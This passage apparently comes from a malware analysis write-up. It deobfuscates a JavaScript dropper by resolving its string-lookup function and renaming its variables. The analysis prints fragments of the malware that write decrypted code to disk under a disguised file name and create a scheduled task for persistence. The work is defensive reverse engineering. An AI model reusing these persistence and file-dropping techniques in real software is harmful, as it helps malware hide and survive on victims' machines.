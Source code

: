 Function F is called several times with a number as an input. Analysis of function F shows that it returns a concatenated substring from the variable 
"qTERF" base on the input number. Replacing the F function calls with the return strings makes it more readable.

Example:
```js
SsyOs = F(9);
ocBEm = F(21);
xtpu = F(6);
```
Becomes
```js
SsyOs = "IBM Rational Tools";
ocBEm = "Settlement Conferences.log";
xtpu = "Market Share Analysis.js";
```

Replacing the random variable names with meaningful names allows us to understand what the script is doing.
Example:
```js
uCAwabs["Close"]();
uCAwabs = xmSzEV["GetFile"](OQhwA);
uCAwabs["name"] = xtpu;
hQCT = uCAwabs["ShortName"];
rTijQzsa = CrirTEg["NewTask"](0);
rTijQzsa["settings"]["StartWhenAvailable"] = true;
```
Becomes
```js
log_fullpath_handler["Close"]();
log_fullpath_handler = Scripting_FileSystemObject_func["GetFile"](Directory_log_fullpath);
log_fullpath_handler["name"] = Market_Share_AnalysisDOTjs_str;
log_fullpath_handler_shortname = log_fullpath_handler["ShortName"];
scheduledtask_handler = Schedule_Service_func["NewTask"](0);
scheduledtask_handler["settings"]["StartWhenAvailable"] = true;
```

Remember the other variable names that were not referenced in the initial script? The variables are instead referenced here. flower7 or meeth0 is called 
again to decrypt the last encrypted string.
```js
Decrypted_string = flower7
(distantk+eight1+ybefhu+originaln+are0+were1+tswyh+boardd+camev+stretch2+rollgk2+hjmsd+ftwrdr+city0+axruiwcvk+rx
ds+week43+spot3+xxxpwu+ilknz+wall1+dadwalh+ibdsd+a5+gold3+hzxx+insect13+cowr+substance5+pmmpzbw+ymwrnn+probablea
+xttlg+jdqid+tcwmdi+hot8+brotherx+island7+atom5+tpzt+hcii+ever5+funmv+fsgkr+kacbvu+laughg+jortk+mindl+truck0+zdp
d+post6+point3+reasonq1+usays+wwqn+twoj+blood4+lyxhh+gesanjv+rtdiwm+vowel7+shouldw+lihkp+able35+great8+claim6+un
dert+hgxeahi+tkfsmkh+herqp+containn+choosee+right67+table0+earthf+sharem+gyooi+eihrr+dkyn+all4+skinn+tone5+vomu+
productw+done1);
```
The decrypted javascript is concatenated with a bunch of random strings and written to disk. 
```js
log_fullpath_handler = Scripting_FileSystemObject_func["OpenTextFile"](Directory_log_fullpath, 8, true);
log_fullpath_handler["Write"](Decrypted_string);
generated_random_string="";
counter=0;
counter2=0;
generated_random_number = generate_random_number_func(560)+10409;
alpha_array = "abcdefghijklmnopqrstuvwxyz"["split"]('');
random_number1 = Math["random"];
```